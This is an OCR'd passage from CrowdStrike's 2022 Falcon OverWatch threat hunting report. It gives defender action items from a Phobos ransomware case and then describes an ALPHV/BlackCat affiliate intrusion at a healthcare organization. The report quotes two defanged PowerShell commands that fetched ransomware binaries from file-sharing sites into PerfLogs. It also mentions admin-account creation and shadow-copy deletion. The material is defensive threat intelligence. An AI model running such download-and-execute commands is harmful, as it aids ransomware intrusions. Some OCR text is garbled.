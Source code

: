 of security controls prior to ransomware execution. 
Action Items for Defenders
Review command line and process arguments for applications initiating registry 
changes. Adversaries will actively modify settings to bypass controls and enable further 
malicious activity. This could include modifying or adding keys associated with security 
technologies or autostart locations. Any WDigest values being set to 1 could indicate an 
adversary preparing to steal credentials. 
Be suspicious of activity originating from non\-standard locations. Adversaries routinely 
use non\-standard directories to stage or execute their files or store the output of their 
tooling. Monitor for the download and execution of scripts from non\-standard locations. 
Any associated requests that include obfuscated or encoded command lines may be a sign 
that the adversary is attempting to acquire binaries covertly.
Audit external services to identify internet\-accessible entry points. Adversaries, 
including Phobos affiliates described in this case study, will attempt to exploit any external 
services. If services are improperly configured, this could allow an adversary an easy 
foothold into the environment. Any user accounts with weak credentials could be low\-
hanging fruit for adversaries to exploit and operate beneath.
25 
 For more on the SEARCH methodology, see https:www.youtube.comwatch?v\=YxcnI\_ZjQAA and https:
www.crowdstrike.comresourcescrowdcastsdont\-wait\-to\-be\-a\-cyber\-victim\-search\-for\-hidden\-threats. 
Nowhere to Hide: 2022 Falcon OverWatch Threat Hunting Report
CrowdStrike
49
OverWatch Identifies Interactive 
ALPHV Affiliate
In another recent intrusion in the healthcare industry, OverWatch 
uncovered RaaS activity by an affiliate of the ALPHV ransomware 
(also known as BlackCat). OverWatch uncovered the early stages 
of this intrusion after seeing suspicious activity under the service 
accounts of three Windows systems. The adversary was operating 
over ScreenConnect remote access software, and OverWatch quickly 
picked up on suspicious reconnaissance and tool transfer activity. The 
adversary used PowerShell to acquire ALPHV binaries from multiple 
public file\-sharing sites and store them into the PerfLogs directory.
powershell Invoke\-WebRequest \-Uri https\[:]
filetransfer\[.]iodata\-packageL8pJUgcEdownload 
\-OutFile C:PerfLogsHillSouthInYourMouth.exe
powershell Invoke\-WebRequest \-Uri 
https\[:]wetransfer\[.]comdownloads
e43s1a1864198f6cc9dd99df3f77d0820220469150915bff4f7 
\-OutFile C:PerfLogshi3\.exe
Next, the adversary executed one of these ALPHV binaries, which carried 
out a number of operations that OverWatch recognized as inline with 
pre\-ransomware activity. These included the creation of a new user 
account, which was then added to the administrators permission group to 
facilitate persistent access. Following this were attempts to delete volume 
shadow copies; however, the Falcon platform prevented these attempts 
from succeeding. This popular eCrime technique is employed to inhibit 
recovery from auto\-backups with the goal of amplifying the pressure on 
victims to meet ransom demands. 
INITIAL ACCESS
Afliate 
discovered 
operating over 
ScreenConnect 
remote access 
software
COMMAND AND CONTROL
Afliate uses 
PowerShell to acquire 
ALPHV binaries from 
multiple public le\- 
sharing sites and store 